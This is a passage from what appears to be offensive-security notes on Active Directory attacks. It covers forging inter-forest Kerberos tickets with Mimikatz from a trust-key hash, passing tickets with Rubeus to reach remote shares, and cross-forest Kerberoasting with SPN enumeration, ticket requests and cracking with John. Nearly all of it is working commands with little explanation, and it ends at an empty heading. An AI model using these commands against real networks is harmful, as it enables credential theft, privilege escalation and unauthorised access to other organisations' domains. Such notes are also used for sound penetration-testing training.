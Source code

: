 **Inter-Forest TGT can be forged with the NTLM hash of the trust key (name of the other forest)**

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"Kerberos::golden /user:Administrator /domain:sub.dom.local /sid:SID /rc4:rc4ntlm-of-trustkey /service:krbtgt /target:targetdom.lol /ticket:C:\myticket.kirbi

rubeus.exe asktgs /ticket:C:\myticket.kirbi /service:cifs/target-dc.targetdom.local /dc:dchostname.targetdom.local /ptt
ls \\targetdom.local\forestshare

Now explicitly shares can be accessed - C$ on forest DC not
```
{% endcode %}

External Trust keys, don't automatically get renewed

Lookup:\
SIDHistory Attack for Parent-Child Domain\
SID Filtering is active for External and Forest Trusts.

## Cross Forest Kerberoast

### Description

* It is possible to execute Kerberoast across Forest trusts.&#x20;
* Let's enumerate named service accounts across forest trusts

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>1. Get all SPNs which are across forest
</strong><strong>Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
</strong>krbtgt account can be ignored, has default SPN configured

ADModule
Get-ADTrust -Filter 'IntraForest -ne $true' | %{GetADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name} 

2. Request a TGT
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:trusted-dom.local /outfile:trusted-dom.txt
Check the TGS
klist
Crack using John
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

or Request TGS accross trust using PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local 
</code></pre>

### Requirement
